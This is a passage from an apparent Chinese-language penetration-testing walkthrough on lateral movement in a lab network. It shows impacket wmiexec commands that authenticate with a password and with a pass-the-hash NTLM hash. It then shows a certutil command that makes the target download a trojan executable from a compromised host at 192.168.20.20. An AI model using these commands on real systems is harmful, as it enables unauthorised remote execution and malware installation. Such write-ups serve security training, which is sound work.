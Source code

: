 #### 2.2.1.3. 代理测试

这里需要注意哦，使用python的时候，这个套件是需要下载模块的，这边已经提前下载了。

可以看到这里我们也是成功获取到信息，证明能够正常连接。

```
python wmiexec.py ./administrator:admin@123@192.168.20.30 "whoami"
python wmiexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30 "whoami"
```

![image-20230629093742245](assets/MCLlzRW7AqV3o5r.png)

### 2.2.2. 横向移动

到这里我们就可以开始横向移动了，这里还是以前提前将木马上传到受控主机的web目录下， 然后让目标主机下载。这里我就不演示上传木马了，直接让目标主机下载吧。

#### 2.2.2.1. 文件上传目标主机

这里的木马，是无法直接使用访问外网上线了，需要设置转发上线，不要搞错了，设置完毕后，再上传木马到受控主机中，让目标主机去受控主机上下载木马。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```

![image-20230629094356688](assets/JbBmEpSXKOziG1k.png)
